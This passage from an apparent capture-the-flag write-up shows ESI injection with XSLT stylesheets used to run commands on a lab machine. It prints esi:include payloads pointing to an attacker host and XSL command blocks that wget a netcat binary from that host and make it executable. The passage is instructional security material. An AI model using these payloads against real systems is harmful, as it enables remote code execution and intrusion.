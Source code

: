Each time the commands are run, a new ticket will need to be created with the above `esi:include` injection. Navigating to `/search.php?search=TICKETNUMBER` will execute the script. 

Let's upload a netcat binary that can execute commands.

```xml
<!-- <esi:include /> -->
<esi:include src="http://10.10.14.29:8888/upload.xsl" stylesheet="http://10.10.14.29:8888/upload.xsl"></esi:include>
```

```xml
<!-- upload.xsl -->
<xsl:variable name="cmd">
        <![CDATA[
                wget http://10.10.14.29:8181/nc
        ]]>
</xsl:variable>
```

![157fc1cf4fadd9f8334bf7f4c6ec06c2.png](/images/htb-quick/923496e18b8c4e1ba08afdedf8fedc7e.png)

Now we need to make it executable. 

```xml
<!-- <esi:include /> -->
<esi:include src="http://10.10.14.29:8888/chmod.xsl" stylesheet="http://10.10.14.29:8888/chmod.xsl"></esi:include>
```

```xml
<!-- chmod.xsl -->
<xsl:variable name="cmd">
        <![CDATA[
                chmod +x ./nc
        ]]>
</xsl:variable>
```

![c521db6c9d55f57e163af985f952a0aa.png](/images/htb-quick/4354278495a8485ea8c635467ff87d16.png)

